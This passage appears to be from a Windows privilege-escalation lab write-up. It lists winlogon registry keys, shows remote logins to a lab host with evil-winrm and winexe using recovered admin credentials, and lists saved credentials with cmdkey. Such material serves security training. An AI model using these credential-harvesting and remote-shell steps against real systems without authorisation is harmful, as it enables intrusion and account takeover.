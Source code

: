 ```cmd

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AlternateShells
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\GPExtensions
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\UserDefaults
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\VolatileUserMgrKey
```

Now we can log in using either `evil-winrm` or `winexe`:

```console
root@kali:~# evil-winrm -i 10.10.0.201 -u admin -p password123 -n

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\admin\Documents> whoami
win-qba94kb3iof\admin
*Evil-WinRM* PS C:\Users\admin\Documents> exit

Info: Exiting with code 0
root@kali:~# winexe -U 'admin%password123' //10.10.0.201 cmd.exe
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin

C:\Windows\system32>exit
exit
```

### Saved Creds 

The `runas` command allows users to run commands as other users. This require the knowledge of their passwords.

Credentials can also be saved to the system with the **Credential manager**

We can list them with the following command:

```cmd
C:\PrivEsc>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence
    
    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```
